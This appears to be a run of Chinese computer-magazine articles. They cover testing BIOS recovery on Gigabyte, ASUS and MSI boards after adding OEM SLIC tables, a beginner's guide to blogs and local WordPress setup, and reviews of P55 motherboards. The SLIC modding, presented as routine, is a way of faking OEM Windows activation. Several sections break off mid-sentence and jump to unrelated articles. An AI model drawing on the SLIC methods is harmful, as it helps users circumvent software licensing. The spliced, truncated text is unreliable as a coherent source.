因为技嘉主板支持从闪存盘刷新BIOS，所以我们把修改好的BIOS复制到闪存盘，建议把修改好的BIOS重命名为8个字符以内的文件名，因为技嘉的Q-FLASH刷新工具只能显示8个英文字符。

在使用Q-FLASH的时候发现了一个问题，BIOS校验完毕之后，会显示一段‘校验代码’，这段代码非常让玩家摸不着头脑：到底是校验通过了？还是失败了？而且我们在测试之中，发现乱改的BIOS也能被校验通过，笔者认为这个校验项目以后值得改进，最好能显示出来‘true’或者‘false’，这样玩家是否确定进行刷新才具有指导意义。

接下来，我们进行一次误刷测试。我们选择将GA-EP43-UD3L的BIOS文件刷入我们的主板（原版为EP43-UD3L，非常容易看错！）。我们下载GA-EP43-UD3L的F6版本BIOS，把它复制入闪存盘，刷入。我们发现Q-FLASH可以对BIOS ID进行简单校验。不同版本的BIOS无法完成互刷。

有的网友说：‘当主BIOS刷新成功以后，备份的BIOS也会被更新’。但是我们这次试验没有发现这个情况。前面用‘ISA、超静3、0+2、OEM7’几种方式是一个接一个地刷新，每次刷新完成之后用查看一遍SLIC表，最后刷入‘改坏的BIOS’，然后备份BIOS开始恢复。恢复之后，我们发现之前加入的SLIC表都被清除，说明Q-FLASH刷新BIOS的时候，就算刷新成功，备份BIOS都不会被写入。这是非常值得肯定的设计。

## 小知识：技嘉的终极BIOS恢复

如果‘Reset键大法’失败，我们可以再进行‘短接阵脚’的方式进行恢复，找到双BIOS的主BIOS（印有MAIN BIOS），眼睛不好的先找放大镜。然后找来镊子或者一段小电线，把MAIN BIOS的1针脚和5针脚进行短接，1针脚旁边能看见一个白色的小箭头。其实就是短接BIOS最上面的两个阵脚。通电开机，然后迅速断开1和5针脚的短接。如果没有成功，那么关机再次重复以上动作（注意不要碰到其他金属触点，以免发生短路烧毁主板）。

有的时候，我们对BIOS的修改可能会造成在开机反复重启的情况，由于这次我们对BIOS的修改没有遇到这样的情况，所以还不太确定发生这种情况的原因。但是，如果真的发生了这种情况，既无法自动进入备份BIOS恢复程序，又无法进入Q-FLASH进行更新，那么我们可以先试试‘Reset键大法’。拔下硬盘光驱等外部设备，搭建只有显卡、内存、CPU的最小系统，插上显示器（最好是VGA接口），按住重启按钮（RESET键），再按开机（此时不松开RESET键），持续几分钟后，等待主板发生‘关机事件’。之后会发生BIOS校验错误的情况，BIOS自动恢复程序开始运行。

通过上面的几项测试，我们对技嘉的物理双BIOS恢复技术进行如下总结。

-   1. 很好，很强大。只要你胆大心细，这种物理双BIOS几乎是刷不死的。
-   2. 不要相信“虚拟双BIOS”，如果虚拟双BIOS管用，那么厂商何苦要做物理双BIOS呢？
-   3. 希望厂商能在未来的产品中加入一个BIOS恢复跳线，这样可以避免使用“短接针脚大法”，毕竟

## 规格

| 项目 | 内容 |
| --- | --- |
| 主板芯片组 | Intel P45+ICH10R |
| CPU插槽 | LGA 775 |
| CPU支持类型 | 酷睿2至尊，酷睿2双核，酷睿2四核，奔腾双核，赛扬双核，奔腾E，赛扬D处理器 |
| 主板结构 | ATX |
| 板载音效 | VIA VT1708S 8声道HD声卡 |
| 板载网络控制器 | Atheros L1E千兆网络控制芯片 |

• EZ Flash界面很简单并且很容易使用，选择BIOS文件后1分钟-2分钟即可刷新成功。

## 测试总结

华硕我们也使用类似技嘉的添加OEM方法进行修改，有所不同的是华硕主板一般是AMI的BIOS，我们以最新的0602版本BIOS为母本修改。我们使用超静1、2、3三种方式修改的BIOS软件均未发现问题，动态修改法软件也没有提示错误，我们把这些修改好的BIOS文件重命名放入闪存盘。用EZ-Flash 2刷新BIOS。在刷入‘改坏的BIOS’后，此款主板立即给我们以颜色，不停地跳出提示并且搜索软盘、闪存盘、光盘根目录以寻找BIOS文件进行刷新。我们分别插入软盘、闪存盘、光盘后，主板很快地搜索到并刷新成功。

## 微星G41TM-E63

| 项目 | 内容 |
| --- | --- |
| BIOS修改模式 | 超静2 |
| 校验测试 | YES |
| 刷入不同主板BIOS | NO |
| 刷入改坏的主板BIOS | YES |
| 恢复测试 | YES |
| USB闪存盘恢复 | YES |

## 规格

| 项目 | 内容 |
| --- | --- |
| 主板芯片组 | Intel G41+ICH7 |
| CPU插槽 | LGA 775 |
| CPU支持类型 | 酷睿2至尊，酷睿2双核，酷睿2四核，奔腾双核，赛扬双核，奔腾E，赛扬D处理器 |
| 主板结构 | M-ATX |
| 板载音效 | Realtek ALC889 8声道HD声卡 |
| 板载网络控制器 | Atheros AR8131千兆网络控制芯片 |

• 利用M-Flash在BIOS中打开启用闪存盘中的BIOS程序作为引导程序，这样就可以在刷新前验证BIOS是否能用了。

## 测试总结

微星M-FLASH首先要在BIOS中打开，确保闪存盘为FAT或者FAT32分区。M-FLASH function as中有三个选项，默认为关闭，展开后还能看到BOOT和BIOS UPDATE两个选项。BIOS UPDATE用于BIOS升级，而BOOT，就是我们的闪存盘无限‘试练’大法。既然微星有无限‘试练’大法，那么我们就先不要着急刷新BIOS了，我们可以先把修改好的BIOS文件在闪存盘中测试启动一下。如果启动成功，测试没有问题之后，再刷入主板，这样非常保险。下面我们把修改好的BIOS放在闪存盘目录下开始‘试练’。有些读者会问：怎么能判断从闪存盘启动BIOS是否成功呢？方法有两种，第一种是M-FLASH function as选为BOOT，加载好要‘试练’的BIOS之后，关机，然后拔下闪存盘，开机启动，会卡在启动画面，说明从闪存盘启动BIOS成功了。第二种是进入操作系统或者PE后，用Everest软件查看主板ACPI-SLIC项目，看看有没有品牌的标识（我们这里看到的是HP的标识）。

## 小知识：如何利用Debug灯判定BIOS故障

Debug灯停留在D3（我们测试的DELL品牌机主板），C1、F4、E9等等，不同版本的BIOS卡的显示可能会有所不同。

## 10月8日 星期四 大雨

BIOS终于被我无尽的尝试玩坏了，怎奈这该死的主板竟然没有软驱，真是Orz……看来只好去村里花钱修了。打了个电话咨询，JS告诉我，如果BIOS能拆下来，带着BIOS芯片就好，但是要记得主板型号。

## BIOS芯片长什么样子？

BIOS芯片多种多样，因封装形式不同阵脚、大小都不尽相同。主要分为几种。

• DIP封装的BIOS常见于较老一些的主板，此种BIOS刷新应该最便宜的，大概30元左右。

• DIP之后的一种新型封装叫PLCC，有些带有插座，有些是直接焊接在主板上的，此种BIOS刷新和上面无异，刷新价格30元-40元，但可能会额外收一些焊接的费用10元左右。

• 大容量BIOS芯片，一般在1MB以上的BIOS都采用此种BIOS芯片，刷新价格在50元左右。

## 打造你自己的“名博论语”

## 博客高手4天速成

如果你想记录生活，在自己的每一天上留下思考的划痕；
如果你要整理思路，固化知识，获得更多更好的想法；
如果你想分享，将自己的有些想法、经验与人分享；
如果你想交流，通过交流产生更多的思维火花；
如果你想交友，互相鼓励，一路同行；
只要你有自由表达的能力，有开放宽容的心态或者张扬的个性，以及一点点专注或专一的精神。那么，

它是一个舞台，可以让你成为其中的舞者；
它是一面镜子，让你在其中展现真实的自己；
它是一个自由媒体，你可以把自身感觉有价值的信息或思想告诉世人，影响世界。
它，就是今天的主角——博客。

## 玩博客你必须知道的几件事

### 问1：什么是博客

答：“博客”一词，源于英文单词Blog，是一个音译的外来词。其中，Blog指网络日志，是Weblog的简称。Weblog，其实是Web和Log的合成词。Web指World Wide Web，即互联网；而Log的原义则是“航海日志”，后指任何类型的流水记录。合在一起后，Weblog就是在网络上的一种流水记录形式或者简称“网络日志”。
Blogger或Weblogger，是指习惯于日常记录并使用Weblog工具的人，简称“博主”。早些时候，对此概念的译名不尽相同（比如网络日志、网络日记本、网志、部落格），但目前已基本统一到“博客”一词上来。博客也好，网志也罢，仅仅是一种名称而已，它的本义还是逃不过Weblog的范围。

> 小知识：“博客”词性的延伸
通常我们所说的“博客”，既可用作名词Blogger或weblogger——指具有博客行为的一类人；也可以作动词用（相当于英文中的Weblog或blog），指博客采取的具有博客行为反映、是第三方可以用视觉感受到的行为，即博客们所撰写的Blog。因此，“他/她是一位博客，他/她天天在博客”及“博客博什么客？”在中文语法与逻辑上都是正确，只是不同场合的用法不同罢了。

### 问2：博客有哪些分类

答：严格地说，因为博客的功能很多，它可以网罗所有的互联网应用、所有的内容，只要你想得到，因此分类起来比较难。不过如果非要进行分类，常见的有分类形式：

-   按内容媒介形式分
    1. 文字型博客：这是最常见的，也是大家使用最频繁的博客形式；
    2. 图片型博客：简称“图客”。以图片为主，少量甚至没有文字，在摄影爱好者中比较流行；
    3. 视频型博客：简称“播客”。以视频内容为主，少量甚至没有文字，在摄像爱好者中比较流行，不过也包括用手机拍摄。
一般而言，我们现在所说的博客通常指的是文字型博客，因为绝大部分博客信息都是以文字为载体的，而图片、视频也只是在原来文字型的基础上延伸出来的。本文将要讲述的内容也主要以文字型博客为例。

-   按博客存在形式分
    1. 托管博客：无须自己注册域名、租用空间和编制网页，只要去免费注册申请即可拥有自己的博客空间，是“最多快好省”的方式。
    2. 自建博客：有自己的域名、空间和页面风格，需要一定的条件。例如自己需要会网页制作，需要懂得网络知识，当然，自己域名的博客更自由，有最大限度的管理权限。
    3. 附属博客：将自己的Blog作为某一个网站的一部分、如一个栏目、一个频道或者一个地址。实际上，这三类之间可以互相演变，甚至可以兼得，一人拥有多种博客网站。

### 问3：博客有啥用

答：基本上，博客并不局限于某种功用，它可以用来做任何事情，不过最主要的功用有以下几个方面：
1. 个人自由表达和出版；
2. 知识过滤与积累；
3. 深度交流沟通的网络新方式。

## 相关知识：关于博客的三个“最”

-   ★最早的博客原型
NCSA的“What‘s New Page”网页，主要是罗列Web上新兴的网站索引，这个页面从1993年6月开始，一直更新到1996年6月为止。
★谁最早使用“weblog”
1997年12月，Jorn Barger运行的“Robot Wisdom Weblog”第一次使用weblog这个正式的名词。至今，在博客领域，他还是一位非常有影响力的人物。
★谁最早使用“blog”
Blog这个词是在1999年被一名叫Peter Merholz的词汇爱好者正式命名的。他把weblog发音为wee’-blog，并缩写成blog。此后，他又将blog变成动词，并衍生出blogger、blogger、Blogsphere（博客世界）等说法，随着时间的推移，在他的朋友圈中慢慢流行起来。1999年8月，Pyra发布了Blogger，这个词汇正式被大众所接受。

## 找一个博客托管网站

说了很多，但要真正了解什么是博客，最佳的方式就是自己马上去实践一下，实践出真知。如果你现在对博客还很陌生，笔者建议你直接去找一个博客托管网站，先开一个自己的博客账户，反正比注册邮件更简单，也不用花费一分钱，觉得没劲也就随手扔掉得了。

## 实战：寻找符合自己的博客托管网站

目前，几乎所有大型一点的网站都提供了博客托管服务，目前用户数量较多的一般是这两类：一是专业的博客集群网，此类网站只经营博客，为注册用户提供单一的博客服务；二是门户博客托管，比如网易、新浪、QQ、搜狐等门户，此外还有百度、Google等搜索门户也有类似的服务。这些博客托管各有各的特点，作为新手，我们推荐用以下博客托管进行尝试：

-   ◎新浪博客：http://blog.sina.com.cn
-   ◎网易部落：http://blog.163.com
-   ◎搜狐博客：http://blog.sohu.com
-   ◎百度空间：http://hi.baidu.com
-   ◎QQ空间：http://qzone.qq.com
-   ◎MSN Space：http://home.spaces.live.com
-   ◎和讯博客：http://blog.hexun.com
-   ◎中国博客网：http://www.blogcn.com
-   ◎博客中国：http://www.bokee.com

## 实战：新浪博客开通记

博客很多，不过大部分的设置都大同小异。我们以新浪为例，来帮助大家了解和掌握博客的基本设置。

-   第一步：申请开通。在浏览器中输入http://blog.sina.com.cn，回车进入新浪博客首页，在首页的右上角有个“开通BLOG”的文字链接。如果你有新浪邮箱的话，用你的邮箱登录就可以直接开通了。如果没有新浪邮箱的话，按照页面提示注册即可。
-   第二步：设置风格。在博客首页点击“页面设置”链接，在打开的窗口中即可看到新浪为我们提供的各种各样的风格模板，分10大类共计260多套，而且数量还在陆续增加当中。根据自己的喜好和博客风格，选择一个即可。每个分类里都有一个随机风格，如果选中随机风格，你的博客每刷新一次将随机显示分类中的一种风格。

> 小提示：
★新浪支持用户自定义风格。在“设置风格”中点击“自定义风格”，然后上传自己制作的头图和背景图片，并进行相关的设置即可。注意，头像规格为宽950px，高100px~300px。
★自定义模板可以制作，也可以使用现成的。网络上有很多第三方提供的模板，比如http://blog.sina.com.cn/s/articlelist_1147856110_10_1.html。

-   第三步：设置首页模块。在博客首页点击“页面设置”链接，在打开的窗口中切换到“设置博客首页模块”页面，勾选要添加的模块，取消勾选不需要显示的模块。勾选完成后点击“保存”按钮。如果默认列表中没有你想要的模块，比如让你的读者了解你这个人，那么你选择“创建文本模块”，然后填上一些自我介绍的文字，添加一个自定义的模板。

> 小提示：
★新浪的自定义模块有两种：一是文本模块，可做成公告或者添加自己的代码等内容；二是列表模块，可用于友情链接，好友链接等内容。
★文本模块支持HTML语言代码，你可以插入背景音乐、媒体播放器、Flash动画、图片幻灯片、电台实时收听等更加个性化的功能或模块。
★你所需要的代码在网络上有很多现成的，可以根据需求来搜索相应的代码，不过使用过程中可能会碰到一些问题，这就需要你对HTML语言

## 实战：从新浪转战QQ空间

除了几大门户之外，我们常用的IM软件也提供了博客服务——即QQ空间功能。由于QQ空间与QQ聊天软件实行了捆绑，如果你想在朋友圈中增加影响，它是一个非常不错的选择。如果你觉得新浪的博客不适合你，那么你可以把新浪的博客搬到到这里来。

第一步：开通QQ空间。首先你需要有一个QQ号码（没有？打开http://iqq.com申请一个），使用该QQ号码登录http://z.qzone.qq.com，在进入“QQ空间个人中心”后，点击“立即开通QQ空间”，然后根据系统提示输入相关的资料，完成即可开通QQ空间。

第二步：把新浪博客搬到QQ空间。打开网址http://qzone.qq.com/move/move_login.htm，登录你的QQ账号即可进入“QQ博客搬家工具”，在这里，你可以将51新浪、网易、搜狐、NSM Space等博客搬到QQ空间。选择“新浪博客”，输入原来博客的用户名、密码或搬家申请即可。QQ搬家既不会删除原有的博客内容，也不会覆盖你QQ空间中的内容，系统一般在12小时内完成搬迁工作。

第三步：设置QQ空间。搬迁完成之后，为了让空间看起来更加符合自己的喜好和风格，你还得进行相关的设置。打开空间，点击左上角工具条中的“自定义”，在网页上端的自定义设置中，调整版式、风格和模块等。当然QQ空间也支持自定义功能，甚至你还可以用Q币购买腾讯商城推出的更加个性化的空间模板。

小提示：
如果你想将你的空间装扮得更加漂亮但又不想花钱，那么你可以打开网址http://qbar.qq.com/1082160，在其中寻找相关的教程，笔者不再一一赘述。

## 网络大补贴：国内博客搬家工具大全

-   新浪搬家: http://control.blog.sina.com.cn/admin/blogmove/index.php
-   搜狐搬家: http://act.blog.sohu.com/move/apply.jsp
-   网易克隆: http://blog.163.com/clone/clone.html
-   百度搬家: http://banjia.blogbus.com
-   和讯搬家: http://hexun.com/blog.hexun.com/306956_d.html

## 进阶：从自立门户开始

试用了各式各样的托管博客之后，你可能会发现托管会有很多限制，功能上也不能让你完全满意，怎么解决呢？最好的办法就是自己搭建博客。不过与托管博客相比，自建博客要艰辛很多，你务必要做好心理准备。如果一切都OK了，那么我们就开始独立博客之旅吧。

## 实战：博客程序选择的七个要求

很多人以为自建博客，需要自己写程序，其实没有必要，现在国内和国外的博客爱好者开发的博客程序很多，但大部分博客程序的功能都差不多，选择什么样的博客程序，更多是个人的喜好问题。不过一旦选定了程序，就应该坚持，否则时间长了再想换程序就很困难了。因此，blogger在选择博客程序时应该看它是否符合以下要求：

1.  博客程序使用是否足够流行。流行也就意味着用的人多，用的人多也就意味着，一旦你出了问题，能够寻求到帮助的机会也越大。
2.  是否符合你的博客写作习惯。比如各种各样的编辑菜单和选项，这是最重要的。
3.  能否生成静态页面。静态页面还是有许多好处的。
4.  是否有中文帮助。并不是每个人都习惯于英文或者别的外文交流。
5.  是否对搜索引擎友好。毕竟独立博客的推广很大程度上靠的是搜索。
6.  程序本身是否经常更新。因为互联网的变化很快，一款不更新的博客程序，就像一个不更新的博客一样，注定是没有前途的。
7.  免费还是收费。毕竟，独立博客还是要考虑支出和收入比的，能用免费就绝对不用收费。

## 实战：用WordPress搭建一个本地博客

目前，比较成熟和成功的博客程序莫过于WordPress了，它是一个免费博客程序，因为它的插件非常多，几乎你可以想象到的网络应用，都有一个简单的插件来满足你的需求，而且由于使用的玩家多，碰到了问题也很容易解决。

不过，在我们将博客放到互联网之前，应该在本地做好充分的准备，搭建一个本地测试平台是非常必要的。由于WordPress使用的是PHP语言和MySQL数据库开发的，因此我们要在本地搭建一个支持PHP语言和MySQL数据库的服务器。操作步骤如下：

1.  到http://www.onlinedown.net/soft/41626.htm下载APMServ。这是一款拥有图形界面的快速搭建Apache、PHP、MySQL、Nginx、Memcached、phpMyAdmin、OpenSSL、SQLite、ZendOptimizer，以及ASP、CGI、Perl网站服务器平台的绿色软件。
2.  将下载回来的APMServ安装到一个没有中文和空格的目录下（例如D:\APMServ），然后运行其中的APMServ.exe，然后在程序的主界面中，勾选必要的MySQL版本选项（V4.0和V5.1），然后单击“启动APMServ”按钮。
3.  在程序的主界面中，单击“管理MySQL数据库”，在浏览器中打开phpMyAdmin后台管理网页，用root和空密码登录到后台。在“创建一个新的数据库”的输入框中输入一个数据库的名字（如WordPress），然后将数据库的编码设置为“utf8_unicode_ci”，点击“创建”，后退出phpMyAdmin后台。
4.  在浏览器中输入http://cn.wordpress.org/WordPress-2.8.4-zh_CN.zip，将WordPress中文版下载到本地，然后将文件解压到APMServ安装目录下的“www\htdocs”文件夹中。
5.  在浏览器地址栏中输入“127.0.0.1/wp-admin/install.php”，打开“WordPress的安装向导”页面，在“数据库名称”中输入“WordPress”，用户名为“root”，密码则留空，其他两项为默认设计，然后点击“填好了”。
6.  此时，WordPress安装脚本已经完成了与MySQL数据库的链接，接着设置一下博客标题（比如电脑爱好者）和博主电子邮件（ctfan@blog.com），勾选“允许我的博客出现在……”，后点击“安装WordPress”。这时，安装脚本自动生成博客后台管理地址“admin”和一个随机密码。
7.  点击“登录”，安装脚本会带你前往登录页面，用刚才生成的账号登录后台，点击“用户”选项就可以修改密码了。这样一个本地博客就建立起来了，在浏览器中输入http://127.0.0.1看下效果吧。

## 实战：在WordPress后台发博文和制作‘专题’

首先登录到WordPress后台，依次点击左侧工具栏中的“文章”→“添加新文章”，然后你就可以在网页上对将要发表的文章进行处理，比如输入标题、内容、摘要等。如果你觉得文章编辑功能区域太多，你可以点击右侧的“显示选项”，并取消你认为不必要的功能区域。

第二步：设置博客文章标签（Tag）。一般由文章中挑选出一些关键词来组成，文章标签可以同时添加多个，也可以一个一个地增加。当然，标签应该和你的博客主题密切相关，这样可以让读者更加容易知道你在说什么，同时也方便检索和搜索引擎收录。

第三步：由于WordPress默认情况下只有一个“未分类”的文章目录，因此你要根据博文的内容来设置相关的分类，以方便日后的管理。依次点击左侧工具栏中的“文章”→“分类目录”，选中“未分类”，然后将其改为“所有文章”，然后在“所有文章”下建立一个“专题”的子目录，然后你就可以将一些相关性很强的话题都放到“专题”这个子目录中即可。

第四步：除了可通过“分类目录”来管理文章外，你还可以通过“标签”来管理，而且两者可以相互转换。依次点击左侧工具栏中的“工具”→“导入”，在这里你可以进行转换了，比如你要把所有博文都转换成标签，那么点击“分类目录到标签”，单击“选中全部”按钮，然后点击“转换分类目录到标签”提交即可。

## 实战：七步优化搜索引擎，提高WordPress博客访问量

每位博主都非常关心自己的博客访问量，为了提高访问量，除了做好内容外，还得进行适当的搜索引擎优化（SEO）。在WordPress中，我们可以通过一些设置或者插件的帮忙来完成SEO。

在WordPress后台工具栏中，依次打开“设置”→“固定链接”，然后在右侧将文章的固定链接设置为“数字”。切忌不要让日期出现在链接里面，也不要让中文字符出现在链接里面，而且链接设置不要过深。

## 网络大补贴：WordPress优化技巧大放送

-   WordPress技巧专题：http://www.thinkagain.cn/archives/835.html
-   31个WordPress使用技巧：http://blogunion.org/category/WordPress/WordPress-tips
-   网罗天下：WordPress进阶大盘点
    -   其实，刚刚建设好的WordPress博客是非常简陋的，要想让界面更好看，功能更丰富，那么你还得进行许多设置。不过，由于用WordPress建博客的人很多，大家在网上都分享了很多经验和技巧，链接地址如下：
    -   主题篇：64个WordPress主题点评：http://blogunion.org/category/WordPress/WordPress-themes
    -   技巧篇：WordPress技巧专题：http://www.thinkagain.cn/archives/835.html
    -   31个WordPress使用技巧：http://blogunion.org/category/WordPress/WordPress-tips
    -   插件篇：79个WordPress插件点评：http://blogunion.org/category/WordPress/WordPress-plugins
    -   WordPress十大插件：http://www.williamlong.info/archives/1322.html
    -   20款Youtube视频插件：http://paranimage.com/wordpress-plugins-for-youtube
    -   安全篇：http://www.williamlong.info/archives/1617.html
    -   分享篇：30个书签收藏分享代码：http://paranimage.com/30-blog-bookmark-and-share-code

## 实战：选好虚拟主机，独立门户

当你在本机上做好了充分的测试和准备之后，接下来的事情就是购买一个虚拟主机来托管你的博客。而虚拟主机的选择，应该根据你的博客程序而定。比如，你选择的是PHP+MySQL的程序，如WordPress，那么你就该找支持PHP+MySQL的虚拟主机；如果你选择的是ASP的程序，那么你就应该选择ASP的虚拟主机。一般情况下，选择好了博客程序以后，虚拟主机的类型是没得选的，能选的只是不同的空间商。而在选择虚拟主机商前，应该做好以下功课：

1.  到百度、Google搜索用户对该虚拟主机商的评价。如果是骂声一片，建议你最好别买；
2.  到落伍者、站长网等站长论坛去逛逛，看看那些站长对虚拟主机的评价怎么样。一般来说，他们的意见是比较专业的；
3.  查询你想购买的虚拟主机的IP下面有多少个站点。如果有成百上千个站点的话，建议不买。想知道某个IP下面有多少个站点，可以到http://www.domaintools.com/reverse-ip查询，输入域名或者IP都可以；
4.  查到了该空间详细的站点清单后，看一看这些...## P55芯片组关公败秦琼

### 问 谁能抱得Lynnfield归

Lynnfield在美国的东北部，隶属于马萨诸塞州，其附近有不少旅游景点，距离剑桥19公里，法内尔大会堂18公里，波士顿19公里，附近有多家高尔夫球场，环境优美，是旅游度假的好去处。

要说芯片厂商的核心代号还真是蛮有意思的，比如Northwood（北林高中，位于普莱西德湖(Lake Placid)的阿德朗代克山脉(Adirondack Mountains)，普拉西德湖是1932年和1980年两届冬奥会的举办地同时也是普莱西德艺术中心），又或是Thunderbird（雷鸟，北美印第安人神话中引起雷雨的巨鸟），还有Dothan（美国某港口城市）等等。

而让人记住的往往不是这些地名、物种的本身含义，而变成了这款CPU的制程、架构、参数等等。而Lynnfield这个不出名的小地方也注定将在接下来的时间里被人们铭记。

#### Part 1 P55 的自我介绍

Lynnfield听起来可能会有人觉得陌生，但是提到大名鼎鼎的i7, i5，如果你还不知道那么该回去补补课了，说实话你Out了……“她”就是采用LGA 1156新平台下i7, i5的核心代号，要说到“她”的迷人之处还要查一查LGA1156新平台P55的族谱才是。

##### P55芯片组的族谱



且不提P43到P45这种几乎不存在任何差距的芯片组，在上述“家谱”中我们可以看出接口的改变、功能上及其微小的改变成为了Intel每年“骗钱”的方法，从P965到P45的3年间架构从未曾发生本质上的变化。

##### 与北桥说拜拜

在上述的架构图中我们可以看出，P55相对于同时代的5系列X58芯片组以及P965、P35、P45最大的变化就是北桥的消失，因为Nehalem架构新酷睿处理器内置内存控制器，原有MCH（Memory Controller Hub，内存控制中心）北桥芯片仅剩下的PCI Express 2.0显卡通道也被Lynnfield划为己有，这样MCH便彻底下岗，Lynnfield直接连接PCH（Platform Controller Hub）南桥成为了单芯片平台。而单芯片带来的好处显而易见：低发热和配置灵活，P55主板的设计可以更为多样化，并且不用再在芯片组的散热上大费周章。

##### QPI消失？天方夜谭

P55把整个北桥移到CPU，原来CPU和北桥之间的QPI总线不会在主板上体现，原北桥和南桥的DMI总线也就成了CPU和南桥（PCH）连接的总线。有些人认为P55取消了QPI总线，这是误解。

QPI是芯片内部互联总线，叫做快速通道互联。英特尔Core i7内部的CPU核心之间、核心和内存控制器之间都采用QPI总线连接。特别重要的是QPI替代了FSB，P55并没有取消QPI只是把CPU和北桥之间的QPI移到了Lynnfield处理器内。

##### P55果真白璧无瑕？

低耗、轻盈、多GPU并行技术支持全面的P55也并非完美，它虽然已经相对P45前进了一大步，但在用户挑剔的期待下，它还是存在少许遗憾。

##### USB和SATA两大重要I/O老旧

P55 PCH提供14个USB 2.0接口，支持6个SATA 3Gb接口，不提供前卫的USB 3.0以及6Gb SATA支持。这是可以理解的部分，USB3.0及6Gb/s SATA在业内暂时还没有真正成熟的解决方案，配套设备也几乎没有。

##### PCI Express支持能力有限

P55 PCH提供8个PCI Express Lanes，LGA1156处理器提供16个PCI Express Lanes，显卡用的PCI Express槽只能配置成x16或x8x8的模式，两大多GPU并行加速技术SLI、CrossFire的理想配置PCI Express x16x16模式仍然无缘P55这桌面主流芯片组。不过P55可以通过在PCI Express上配置NVIDIA NF200芯片增加PCI Express Lanes，来实现充足带宽的GPU计算应用。

##### DMI总线带宽过低

CPU连接南桥（PCH）采用的DMI总线只有2GB/s（16Gb/s）的速率，虽然相比PCI 133MB/s已经有了一个质的提升，但是6×SATA 3Gb、14×USB 2.0、8×PCI Express 1x以及双千兆网卡，峰值速率就会达到6×3+14×0.48+8×0.5+2×1=30.72Gb/s（3.84GB/s），这样看来DMI的2GB/s就会稍显不足，虽然此种BT应用很难见到，但是本着力求完美的态度，P55还是欠一些火候。

##### 未能支持Braidwood加速技术

Braidwood使用Intel Turbo Memory技术通过加入一个NAND闪存模块，加速系统读取硬盘数据的性能，这是之前在Centrino移动平台上技术的台式机版本，Vista操作系统中提供了ReadyBoost和ReadyDrive功能对此进行支持，Windows 7将继续强化此技术的性能。

#### Part 2 百家争鸣，P55 披甲悉数上阵

##### 技嘉GA-P55-UD3R

技嘉GA-P55-UD3R基于Intel全新的P55单芯片设计，支持LGA1156接口的Core i7, Core i5处理器。从主板命名上可以看出该主板支持超耐久3技术，用料豪华，而且还支持技嘉新推的SMART 6技术，功能相当丰富。LGA 1156接口的P55主板的内存规格为双通道，自然也就比LGA 1366接口的X58主板的三通道内存少了两根DIMM插槽。技嘉GA-P55-UD3R主板支持DDR3 1066/1333内存规格，扩展支持DDR1600（OC），支持双通道内存技术，配合处理器的内存控制器可以有相当不错的内存性能。

-   CPU供电部分，采用了豪华的8+2相供电设计，搭配高品质固态电容以及全封闭电感，保证了LGA 1156处理器供电的稳定。
-   主板的IO接口部分，保持了技嘉主板一贯的“丰满”风格，鼠标键盘共用的PS2口，可以使用1个PS2设备，USB 2.0接口的数量达到了10个之多，同时还有千兆网卡接口，8声道音频接口，光纤输出和同轴接口。由JMB362芯片提供的2个eSATA接口。
-   主板板载了JMB362芯片，除了P55提供的6个SATA 3Gb外还提供了2个SATA 3Gb接口，支持RAID 0、RAID 1、JBOD功能。主板还保留了对软驱接口的支持。
-   技嘉的标志性的双BIOS技术，无可厚非地成为最实用的功能。
-   双子星JMicron公司的两枚第三方磁盘芯片之一，JM363被Gigabyte大大的LOGO占据，如果不是右下角的JM LOGO还真认不出它的真身，不过这也说明了JMicron与技嘉的深度合作。
-   常见的I/O传感器iTE（联阳）的IT8720F，我们常用的SpeedFan、Everest等电压监测、温度监测和风扇转速等都靠它实现了。
-   可能是此款主板的主流定位，技嘉并未在此款主板上采用更高品质的Realtek ALC889而采用了平民化的Realtek ALC888。
-   相数显示LED，可以直接观察供电模组处于哪种模式，配合机箱的透明侧面板简单方便，省去了安装软件的麻烦。

##### 测试总结：

这款技嘉主板做工扎实，用料豪华，品质不错，连INTEL的上海发布会都指定采用这款技嘉主板。再加上近期市面上有不少促销的i5 750套装，组建一套i5平台并不算很遥远的事情。

##### 富士康Inferno Katana

作为著名的代工大厂，富士康在自有品牌产品的宣传上一直要差一些。不过在其连续推出几款如“文艺复兴”、“火炎剑”高端主板后，也终于在玩家心目中确立了高端的地位。但在这之后，富士康不仅没推出什么新产品，连之前的型号也很难买到，让人一度以为放弃了自有品牌的主板。FOXCONN在每一款产品上都习惯有特殊的命名，这款P55以Inferno Katana(炼狱武士刀)命名，也是众多产品中相当罕见的方式。

主板采用了ATX大板型设计，基于Intel P55单芯片芯片组，支持还未上市的LGA1156接口的Core i5处理器。由于采用单芯片设计，P55主板看上去要简洁。

##### 测试总结：

有关于设计、用料或超频，这几个方面来看，富士康作为代工大厂一直以来都不会比三大主板厂商逊色，漂亮的板型、众多的功能让人不由得想起华硕的ROG（玩家国度），希望这次富士康能做好它的通路和营销，好酒真的也怕巷子深。

##### 精英P55H-A

这款精英P55H-A主板属于精英高端的黑尊龙系列，无论在做工用料还是在设计上都可圈可点。它采用了精英独有的三倍金技术，15μm金层三倍金技术则很好地克服了传统5μm金层金手指所产生的一些问题。在电气性能方面，黄金有着常用铜金属所无法比拟的优越性能。而其稳定、恒久、耐磨、耐腐蚀的品质更是各种接口材料的最佳选择。由于金在比热容方面与铜的性质非常相似，而金本身的化学性质也非常稳定并且是优良的导体，其在抗腐蚀特性上要远远超过其他的镀金属工艺；所以精英采用的三倍金技术可以很好地保证触点不会产生氧化和腐蚀现象。所以也不会因为氧化而产生触点截面积降低，电阻升高，热量升高的问题。

-   供电部分采用了4+2相的供电设计，由红色富士通全固态电容与全封闭的电感和高品质的MOS管共同作用，考虑到仅有95W TDP的Lynnfield还是够用的。
-   背板I/O接口部分，提供了常见的PS/2键盘接口、八个的USB接口、1个eSATA接口，S/PDIF接口以及音频接口。同时也在背板上设计了CMOS清除按键以方便玩家在装箱状态下也能够自如地清除BIOS。
-   中规中矩地提供了6个SATA 3Gb，而IDE、FDD被彻底抛弃。
-   单BIOS，并且不可拆装，考虑到精英并未提供高级BIOS恢复技术，没有FDD、没有双BIOS，刷新此款主板的BIOS要小心谨慎。
-   同样是常见的I/O传感器iTE（联阳）的IT8720F，同样可以提供精确的电压监测、温度监测和风扇转速。
-   常见的小螃蟹Realtek ALC888S，可以保证基本的影音需要。
-   debug灯的提供与此款主板的定位有些不符，不过能很好地检测硬件故障，也算是一个小小的优点。
-   在电源接口上，此款主板非常人性化的提供了大D口和ATX 12V，在使用老电源时方便了许多。

##### 评测总结:

此款主板虽然是Black系列，但是无论在用料还是功能上都扎实且中规中矩，没有太多花哨的功能注定了此款主板定位于中端用户，相信随着P55芯片组的价格调整，此款主板的性价比会越来越高。

#### Part 3 是骡子是马，分数见分晓

##### 测试平台

